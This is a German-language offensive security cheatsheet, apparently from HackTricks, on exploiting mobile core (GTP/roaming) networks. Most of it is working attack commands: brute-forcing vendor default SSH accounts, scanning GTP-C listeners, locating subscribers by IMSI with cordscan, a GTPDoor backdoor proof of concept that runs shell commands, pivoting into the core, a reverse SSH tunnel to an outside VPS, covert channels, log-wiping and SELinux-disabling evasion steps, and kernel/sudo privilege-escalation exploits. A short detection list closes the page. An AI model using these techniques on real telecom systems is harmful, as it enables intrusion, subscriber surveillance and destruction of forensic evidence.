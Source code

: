 # Telecom-Netzwerkausnutzung (GTP / Roaming-Umgebungen)

{{#include ../../banners/hacktricks-training.md}}

> [!NOTE]
> Mobile-Core-Protokolle (GPRS Tunneling Protocol – GTP) durchqueren oft semi-vertrauenswürdige GRX/IPX-Roaming-Backbones. Da sie über ungesichertes UDP ohne nahezu keine Authentifizierung laufen, **kann in der Regel jeder Zugang innerhalb eines Telekomperimeters direkt auf die Kernsignalisierungsebenen zugreifen**. Die folgenden Notizen sammeln offensive Tricks, die in der Wildnis gegen SGSN/GGSN, PGW/SGW und andere EPC-Knoten beobachtet wurden.

## 1. Recon & Erster Zugriff

### 1.1  Standard-OSS / NE-Konten
Eine überraschend große Anzahl von Netzwerk-Elementen von Anbietern wird mit fest codierten SSH/Telnet-Benutzern wie `root:admin`, `dbadmin:dbadmin`, `cacti:cacti`, `ftpuser:ftpuser`, … ausgeliefert. Eine dedizierte Wortliste erhöht den Erfolg bei Brute-Force-Angriffen erheblich:
```bash
hydra -L usernames.txt -P vendor_telecom_defaults.txt ssh://10.10.10.10 -t 8 -o found.txt
```
Wenn das Gerät nur eine Management-VRF bereitstellt, pivotieren Sie zuerst über einen Jump-Host (siehe Abschnitt «SGSN Emu Tunnel» unten).

### 1.2  Host Discovery innerhalb von GRX/IPX
Die meisten GRX-Betreiber erlauben immer noch **ICMP Echo** über das Backbone. Kombinieren Sie `masscan` mit den integrierten `gtpv1` UDP-Proben, um GTP-C-Listener schnell zu kartieren:
```bash
masscan 10.0.0.0/8 -pU:2123 --rate 50000 --router-ip 10.0.0.254 --router-mac 00:11:22:33:44:55
```
## 2. Abfragen von Abonnenten – `cordscan`

Das folgende Go-Tool erstellt **GTP-C Create PDP Context Request**-Pakete und protokolliert die Antworten. Jede Antwort zeigt den aktuellen **SGSN / MME** an, der die abgefragte IMSI bedient, und manchmal das besuchte PLMN des Abonnenten.
```bash
# Build
GOOS=linux GOARCH=amd64 go build -o cordscan ./cmd/cordscan

# Usage (typical):
./cordscan --imsi 404995112345678 --oper 40499 -w out.pcap
```
Wichtige Flags:
- `--imsi` Zielteilnehmer IMSI
- `--oper` Heimat / HNI (MCC+MNC)
- `-w`      Rohpakete in pcap schreiben

Wichtige Konstanten im Binärformat können gepatcht werden, um Scans zu erweitern:
```
pingtimeout       = 3   // seconds before giving up
pco               = 0x218080
common_tcp_ports  = "22,23,80,443,8080"
```
## 3. Codeausführung über GTP – `GTPDoor`

`GTPDoor` ist ein kleiner ELF-Dienst, der **UDP 2123 bindet und jedes eingehende GTP-C-Paket analysiert**. Wenn die Nutzlast mit einem vorab geteilten Tag beginnt, wird der Rest entschlüsselt (AES-128-CBC) und über `/bin/sh -c` ausgeführt. Die stdout/stderr werden in **Echo Response**-Nachrichten exfiltriert, sodass keine ausgehende Sitzung jemals erstellt wird.

Minimales PoC-Paket (Python):
```python
import gtpc, Crypto.Cipher.AES as AES
key = b"SixteenByteKey!"
cmd = b"id;uname -a"
enc = AES.new(key, AES.MODE_CBC, iv=b"\x00"*16).encrypt(cmd.ljust(32,b"\x00"))
print(gtpc.build_echo_req(tag=b"MAG1C", blob=enc))
```
Detection:
* Jeder Host, der **unausgeglichene Echo-Anfragen** an SGSN-IPs sendet
* GTP-Version-Flag auf 1 gesetzt, während der Nachrichtentyp = 1 (Echo) – Abweichung von der Spezifikation

## 4. Pivoting Through the Core

### 4.1  `sgsnemu` + SOCKS5
`OsmoGGSN` liefert einen SGSN-Emulator, der in der Lage ist, **einen PDP-Kontext zu einem echten GGSN/PGW** herzustellen. Sobald verhandelt, erhält Linux eine neue `tun0`-Schnittstelle, die vom roaming Peer erreichbar ist.
```bash
sgsnemu -g 10.1.1.100 -i 10.1.1.10 -m 40499 -s 404995112345678 \
-APN internet -c 1 -d
ip route add 172.16.0.0/12 dev tun0
microsocks -p 1080 &   # internal SOCKS proxy
```
Mit ordnungsgemäßem Firewall-Hair-Pinning umgeht dieser Tunnel nur Signalisierungs-VLANs und landet Sie direkt im **Datenverkehr**.

### 4.2  SSH Reverse Tunnel über Port 53
DNS ist in Roaming-Infrastrukturen fast immer offen. Exponieren Sie einen internen SSH-Dienst zu Ihrem VPS, der auf :53 lauscht, und kehren Sie später von zu Hause zurück:
```bash
ssh -f -N -R 0.0.0.0:53:127.0.0.1:22 user@vps.example.com
```
Überprüfen Sie, ob `GatewayPorts yes` auf dem VPS aktiviert ist.

## 5. Verdeckte Kanäle

| Kanal | Transport | Dekodierung | Anmerkungen |
|-------|-----------|-------------|-------------|
| ICMP – `EchoBackdoor` | ICMP Echo Req/Rep | 4-Byte Schlüssel + 14-Byte Chunks (XOR) | reiner passiver Listener, kein ausgehender Verkehr |
| DNS – `NoDepDNS` | UDP 53 | XOR (Schlüssel = `funnyAndHappy`) kodiert in A-Record-Oktetten | überwacht `*.nodep` Subdomain |
| GTP – `GTPDoor` | UDP 2123 | AES-128-CBC Blob in privatem IE | vermischt sich mit legitimen GTP-C Gesprächen |

Alle Implantate implementieren Watchdogs, die ihre Binärdateien **timestomp** und sich neu starten, wenn sie abstürzen.

## 6. Verteidigungsumgehung Cheatsheet
```bash
# Remove attacker IPs from wtmp
utmpdump /var/log/wtmp | sed '/203\.0\.113\.66/d' | utmpdump -r > /tmp/clean && mv /tmp/clean /var/log/wtmp

# Disable bash history
export HISTFILE=/dev/null

# Masquerade as kernel thread
echo 0 > /proc/$$/autogroup   # hide from top/htop
printf '\0' > /proc/$$/comm    # appears as [kworker/1]

touch -r /usr/bin/time /usr/bin/chargen   # timestomp
setenforce 0                              # disable SELinux
```
## 7. Privilegienausweitung auf Legacy NE
```bash
# DirtyCow – CVE-2016-5195
gcc -pthread dirty.c -o dirty && ./dirty /etc/passwd

# PwnKit – CVE-2021-4034
python3 PwnKit.py

# Sudo Baron Samedit – CVE-2021-3156
python3 exploit_userspec.py
```
Reinigungstipp:
```bash
userdel firefart 2>/dev/null
rm -f /tmp/sh ; history -c
```
## 8. Werkzeugkasten

* `cordscan`, `GTPDoor`, `EchoBackdoor`, `NoDepDNS` – benutzerdefinierte Werkzeuge, die in vorherigen Abschnitten beschrieben sind.
* `FScan` : Intranet TCP-Scans (`fscan -p 22,80,443 10.0.0.0/24`)
* `Responder` : LLMNR/NBT-NS bösartiger WPAD
* `Microsocks` + `ProxyChains` : leichtgewichtiges SOCKS5-Pivoting
* `FRP` (≥0.37) : NAT-Überwindung / Asset-Bridging

---
## Erkennungsideen
1. **Jedes Gerät außer einem SGSN/GGSN, das Create PDP Context Requests erstellt**.
2. **Nicht-standardisierte Ports (53, 80, 443), die SSH-Handshakes von internen IPs empfangen**.
3. **Häufige Echo-Anfragen ohne entsprechende Echo-Antworten** – könnte auf GTPDoor-Beacons hinweisen.
4. **Hohe Rate von ICMP-Echo-Antwortverkehr mit großen, nicht-null Identifikations-/Sequenzfeldern**.

## Referenzen

- [Palo Alto Unit42 – Infiltration von globalen Telekommunikationsnetzen](https://unit42.paloaltonetworks.com/infiltration-of-global-telecom-networks/)
- 3GPP TS 29.060 – GPRS Tunneling-Protokoll (v16.4.0)
- 3GPP TS 29.281 – GTPv2-C (v17.6.0)

{{#include ../../banners/hacktricks-training.md}}
